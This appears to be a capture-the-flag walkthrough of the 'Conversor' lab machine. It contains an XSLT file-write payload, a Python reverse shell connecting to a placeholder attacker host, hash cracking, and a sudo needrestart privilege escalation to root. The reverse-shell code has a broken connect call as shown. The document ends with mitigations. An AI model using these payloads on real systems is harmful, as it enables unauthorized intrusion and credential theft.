








# Conversor


```
Difficulty: Easy
Operating System: Linux
Hints: True
```


> Target: `conversor.htb` (add to `/etc/hosts` with the target IP)

## Summary of Attack Chain

| Step | User / Access | Technique Used                                  | Result                                                                                                                                                                                    |
| :--: | :-----------: | :---------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|   1  |     `N/A`     | **Port Enumeration & Host Discovery**           | Fast `nmap` scan discovered `22/tcp` (SSH) and `80/tcp` (HTTP). HTTP hostname indicated `conversor.htb`.                                                                                  |
|   2  |     `N/A`     | **Host Mapping / Web Recon**                    | Added `conversor.htb` to `/etc/hosts`, browsed site — found login/register and authenticated area with XML/XSLT upload.                                                                   |
|   3  |  `auth user`  | **XSLT Processing Verification**                | Uploaded test XML/XSL that returned `libxslt` vendor string, confirming server-side XSLT processing and EXSLT support.                                                                    |
|   4  |  `auth user`  | **XSLT Injection — exsl:document**              | Used `exsl:document` to write files (e.g., `/tmp/test.txt`), proving arbitrary file write via XSLT.                                                                                       |
|   5  |   `www-data`  | **Ingress Tool Transfer (write reverse shell)** | Wrote a Python reverse shell into `/var/www/conversor.htb/scripts/revshell.py` via XSLT file write.                                                                                       |
|   6  |   `www-data`  | **Cron Execution (Scheduled Job)**              | Found cron job executing `/var/www/conversor.htb/scripts/*.py` as `www-data` every minute; cron ran the dropped revshell.                                                                 |
|   7  |   `attacker`  | **Reverse Shell — Initial Foothold**            | Received a reverse shell connection as `www-data`, enabling local discovery and file access.                                                                                              |
|   8  |   `www-data`  | **Local Discovery (source/db)**                 | From webroot/source discovered SQLite DB at `/var/www/conversor.htb/instance/users.db` containing Raw-MD5 password hashes.                                                                |
|   9  |   `attacker`  | **Hash Extraction & Offline Cracking**          | Exported Raw-MD5 hash and cracked it offline with John the Ripper (`--format=Raw-MD5`, rockyou) recovering `fismathack`'s password.                                                       |
|  10  |  `fismathack` | **Valid Account Login (SSH)**                   | SSHed into `fismathack@conversor.htb` with cracked credentials and retrieved `/home/fismathack/user.txt` (user flag).                                                                     |
|  11  |  `fismathack` | **Sudo Misconfiguration — needrestart**         | `sudo -l` showed `NOPASSWD: /usr/sbin/needrestart`. Used `sudo /usr/sbin/needrestart -c pwn.sh` to set SUID on `/bin/bash`, then ran `/bin/bash -p` → `root`. Retrieved `/root/root.txt`. |


## Recon

I started with a fast nmap scan to discover open services:

```bash
nmap -T4 -sS --min-rate 5000 -v -Pn <IP>
```

**High-level results:**

* `22/tcp` open — `ssh` (OpenSSH 8.9p1 Ubuntu ...)
* `80/tcp` open — `http` (Apache httpd 2.4.52)

The HTTP response and hostname hinted the site was `conversor.htb`, so I added it to `/etc/hosts`:



```bash
echo "<IP>  conversor.htb" | sudo tee -a /etc/hosts
```

## Initial Foothold

Opening the site revealed a login page with a register flow. I registered a user and authenticated. The authenticated area allowed uploading XML and XSLT files — a strong indicator to test XSLT processing and injection.


### XSLT Injection & File Write

First I verified that XSLT is processed by the server by uploading a minimal XML that referenced an XSL file:

**`payload.xml`**

```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="payload.xsl"?>
<data><item>test</item></data>
```

**`payload.xsl`**

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

The response returned `libxslt`, confirming the server processes XSLT with libxslt and supports EXSLT extensions.

Next I tested writing files using EXSLT's `document` (or `exsl:document`) which allowed writing arbitrary files on the filesystem.

**`payload2.xsl` (file write test)**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl"
  version="1.0">
  <xsl:template match="/">
    <exsl:document href="file:///tmp/test.txt" method="text">
      test
    </exsl:document>
  </xsl:template>
</xsl:stylesheet>
```

This successfully created `/tmp/test.txt` on the host — confirming arbitrary file write via XSLT was possible.


### Initial Shell via Cron + Reverse Shell

While inspecting the application source (downloadable from an About/Download link), I found a deployment note that included a cron job configured to run every minute:

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

A cron job that executes **any** Python file in `/var/www/conversor.htb/scripts/` as `www-data` every minute is a low-hanging privilege path once we can write files there.

I used the XSLT file write capability to place a Python reverse shell into `/var/www/conversor.htb/scripts/revshell.py`.

**`revshell.xsl` (used to write `/var/www/conversor.htb/scripts/revshell.py`)**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:ptswarm="http://exslt.org/common"
    extension-element-prefixes="ptswarm"
    version="1.0">

  <xsl:template match="/">
    <ptswarm:document href="/var/www/conversor.htb/scripts/revshell.py" method="text">
#!/usr/bin/env python3
import os, socket, subprocess
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect("<ATTACKER_IP>", <ATTACKER_PORT>)
os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh","-i"])
    </ptswarm:document>
  </xsl:template>
</xsl:stylesheet>
```

> Replace `<ATTACKER_IP>` and `<ATTACKER_PORT>` with your listener info.




Start a netcat listener locally:

```bash
nc -lvnp <ATTACKER_PORT>
```

After waiting for the next cron run, the listener received a reverse shell as **www-data**.




### Privilege Escalation — Local DB & Cracking a User

From the application source I located the SQLite database used by the web app:

```
/var/www/conversor.htb/instance/users.db
```

I opened the DB and inspected the `users` table:

```bash
sqlite3 /var/www/conversor.htb/instance/users.db
.tables
SELECT * FROM users;
```



The table contained usernames and password hashes (Raw MD5-style). For example, a `fismathack` user entry existed with a hash.

I exported the hash and cracked it using John the Ripper:

```bash
echo "5b5c3<HASH>" > hash.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

John recovered the plaintext password. Using the credentials I SSH'd into the host:

```bash
ssh fismathack@conversor.htb
# password: <CRACKED_PASSWORD>
```



Once logged in as `fismathack` I read the user flag:

```bash
cat /home/fismathack/user.txt
# <USER_FLAG>
```



User flag obtained.


## Privilege Escalation


On the `fismathack` account I checked sudo privileges:

```bash
sudo -l
```

The output showed `fismathack` can run `/usr/sbin/needrestart` as root without a password:

```
User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```



### Root Flag

`needrestart` has an option to execute scripts or check binaries; in this environment we can abuse it to run arbitrary commands as root. I created a small script that invokes `system("chmod +s /bin/bash");` (or any command to obtain a root shell) and used `needrestart` to execute it.

Example steps I used:

```bash
# create a script that will set the SUID bit on bash
echo 'system("chmod +s /bin/bash");' > pwn.sh

# run needrestart as root (NOPASSWD)
sudo /usr/sbin/needrestart -c pwn.sh

# execute the SUID bash to become root
/bin/bash -p
whoami
```

After that, I had a root shell and retrieved the root flag:

```bash
cat /root/root.txt
# 304d48XXXXXXXXXXXXXXXXXXXXXX
```




## Notes & Mitigations

* **XSLT Processing:** Avoid allowing user-controlled XSLT files to execute on the server. If XSLT support is required, restrict which extension functions and file URIs are allowed; run transformation in a sandbox and drop filesystem write capabilities.

* **File Uploads:** Treat uploaded XML/XSLT as untrusted input. Disallow processing of stylesheets referenced via `<?xml-stylesheet?>` or sanitize/validate XSL content before applying.

* **Cron Execution of Arbitrary Scripts:** Never execute all files in a directory owned by the webserver without strict validation. If cron must run scripts, ensure the scripts are owned and writable only by trusted users or use a whitelist.

* **Stored Passwords:** Avoid storing unsalted MD5 password hashes. Use strong, salted hashing algorithms (e.g., bcrypt/Argon2).

* **Sudo Configuration:** Be careful with `NOPASSWD` for complex utilities; restrict exact arguments or avoid granting powerful utilities like `needrestart` without review.


## Indicators / IOCs

* Presence of files written by XSLT: `/var/www/conversor.htb/scripts/revshell.py`
* Cron entry: `* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done`
* Writable application instance path: `/var/www/conversor.htb/instance/users.db`


### TL;DR

* Found XSLT file upload + EXSLT document → arbitrary file write.
* Wrote reverse shell to `/var/www/conversor.htb/scripts/` → cron executed it as `www-data`.
* Found local SQLite DB → cracked Raw-MD5 hash with John → SSH as `fismathack`.
* `fismathack` has `NOPASSWD` for `/usr/sbin/needrestart` → used it to get a root shell and read `/root/root.txt`.


